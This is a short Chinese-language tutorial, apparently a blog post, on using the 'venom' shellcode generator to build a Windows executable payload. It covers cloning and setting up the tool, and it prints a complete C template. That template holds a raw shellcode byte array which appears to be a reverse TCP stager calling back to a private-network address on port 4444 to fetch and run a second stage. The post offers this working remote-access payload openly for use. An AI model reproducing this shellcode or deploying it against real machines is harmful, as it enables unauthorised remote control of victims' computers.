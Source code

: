 安装

```bash
# 从github上拖到本地
git clone https://github.com/r00t-3xp10it/venom.git

# 修改文件执行权限cd venom
sudo chmod -R +x *.sh
sudo chmod -R +x *.py

# 安装依赖库和软件
cd aux
sudo ./setup.sh

# 运行
。/venom.sh
```



[![BJ5Lt0.md.png](https://s1.ax1x.com/2020/10/29/BJ5Lt0.md.png)](https://imgchr.com/i/BJ5Lt0)

选择 2 ，然后回列出 21 个 angent.

这里选择 第4 个，通过编译exe .

[![BJHS8x.md.png](https://s1.ax1x.com/2020/10/29/BJHS8x.md.png)](https://imgchr.com/i/BJHS8x) 

[![BJHePI.png](https://s1.ax1x.com/2020/10/29/BJHePI.png)](https://imgchr.com/i/BJHePI)

之后一些选项看着选就可以了。

[![BJH2z6.md.png](https://s1.ax1x.com/2020/10/29/BJH2z6.md.png)](https://imgchr.com/i/BJH2z6)

shellcode 就生成了。

之后可以自己用 vs2010 编译生成 exe.

```c
// C template | Author: r00t-3xp10it

#include <stdio.h>
#include <windows.h>

// Our code goes here
unsigned char buf[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x02\x83"
"\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
"\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
"\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
"\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
"\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
"\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

```